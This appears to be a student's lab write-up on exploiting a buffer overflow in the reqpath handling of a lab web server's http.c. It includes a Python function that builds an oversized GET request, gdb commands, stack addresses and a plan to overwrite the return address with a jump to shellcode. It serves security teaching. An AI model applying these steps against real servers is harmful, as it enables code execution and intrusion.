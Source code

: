 # Lab 1

## Part 1: Finding buffer overflows

There is one buffer overflow we can find in the `http.c`, the `reqpath`
can be overflowed.

So I write a brute-force python script:

```py
def build_exploit(shellcode):
    junk_data = b"22"
    req = b"GET " + b"/1" + junk_data * 2060 + b" HTTP/1.0\r\n\r\n"
    return req
```

## Part 2: Code injection

Instead of using brute-force ways, we should calculate carefully how many bytes
we need to inject. It is still easy.

First, we should use `gdb` to hack the web system.

```sh
b process_client
c
x/16x reqpath
info frame
```

+ `reqpath` start address is at `0x7fffffffdca0`
+ `process_client` functions return address is at `0x7fffffffecb8`

Now, it is obvious. We should set the return address to be `0x7fffffffecc0`
which is just behind the return address, and the shell code should be put in
the `0x7fffffffecc0`
